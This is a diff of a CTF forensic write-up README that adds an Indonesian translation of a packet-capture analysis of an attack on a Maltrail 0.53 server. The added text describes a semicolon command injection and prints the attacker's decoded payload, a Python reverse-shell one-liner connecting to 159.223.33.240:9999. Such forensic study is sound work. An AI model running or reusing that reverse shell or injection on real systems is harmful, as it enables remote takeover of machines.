

Before and after one commit to spuuntries/hcs-2023-writeup, a Markdown page: Forensic/Analyze the Bad Hacker!/README.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Forensic/Analyze the Bad Hacker!/README.md
+++ b/Forensic/Analyze the Bad Hacker!/README.md
@@ -7,7 +7,7 @@
 
 ## **EN**
 
-So, at first, we were given this `.pcapng` file, titled `budi.pcapng`.
+For this challenge, we were given this `.pcapng` file, titled `budi.pcapng`.
 
 At first, I was a bit turned down by this. Mostly due to the fact that I didn't have wireshark installed on my current machine, I didn't want to boot up my kali live instance, and that I'm currently on a relatively slow internet connection. So installation of wireshark could, and did, prove to be quite the hassle, especially due to the time limit later on.
 
@@ -77,3 +77,20 @@ To recap, it moved to `/tmp` and writes a file named `.hmm.sh`, so the absolute
 
 🎉🎉🎉
 ![Finished!](./assets/image-9.png)
+
+## **ID**
+
+Untuk challenge yang ini, kita diberikan file `.pcapng` bernama `budi.pcapng`.
+
+Awalnya aku sudah nggak enakan ketika melihat format filenya. Terutama karena aku belum punya wireshark di deviceku saat ini, aku nggak mau boot up kali, dan internetku lagi lemot. Jadi kalau menginstall wireshark mungkin, dan ternyata emang, ribet.
+
+Jadi, aku mencari pcap viewer yang online, dan menemukan `https://apackets.com/`.
+
+Setelah di upload pcapnya, keluarlah hasil yang telah teranalisis:
+![A-packets analysis](./assets/image.png)
+
+1. Pertanyaan pertama meminta nama dan versi software yang digunakan pada server yang sedang dianalisis, jadi yang aku lakukan pertama adalah melihat bagian _HTTP Communication_, spesifiknya `GET`, karena biasanya header respons `GET` menyebutkan software dan versi dari server yang merespon. Yang aku temukan ini:
+   ![GET Request headers](./assets/image-1.png)
+   `Maltrail/0.53`
+   Soal 1 selesai.
+
@@ -79,0 +113,19 @@ To recap, it moved to `/tmp` and writes a file named `.hmm.sh`, so the absolute
+Penggunaan `;` dalam input menunjukkan bahwa ini sebuah escape dari suatu sanitasi string, jadi apapun yang setelah itu kemugkinan adalah RCE. Aku ambil string base64nya dan aku decode:
+
+![RCE Base64 decoded](./assets/image-2.png)
+
+```sh
+python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
+```
+
+Kesimpulannya, ini ngebuka shell, terus konek ke device _hacker_ lewat socket. Dari sini kita bisa lihat IP dan portnya:
+`159.223.33.240:9999`
+
+4. Nomor 4 meminta _absolute path_ dari file yang _hacker_ taruh lewat shell di nomor 3.
+
+Analisis apackets kurang dalem untuk melihat paket sockets yang biasanya _raw TCP_, jadi aku terpaksa menginstall wireshark terlebih dahulu. Dimasukkan ke situ hasilnya gini:
+![A LOT OF PACKETS](./assets/image-3.png)
+**Banyak** banget paketnya, jadi untuk mengurangi jumlah kandidat, kita filter ke TCP port 9999, jadi tinggal 87 paket aja.
+![A lot to just 87 packets](./assets/image-4.png)
+Sekarang tinggal scroll tiap _frame_ aja satu-satu sampe ngerti.
+
````
Also changed, not shown: other parts of Forensic/Analyze the Bad Hacker!/README.md (+36 -0 lines).
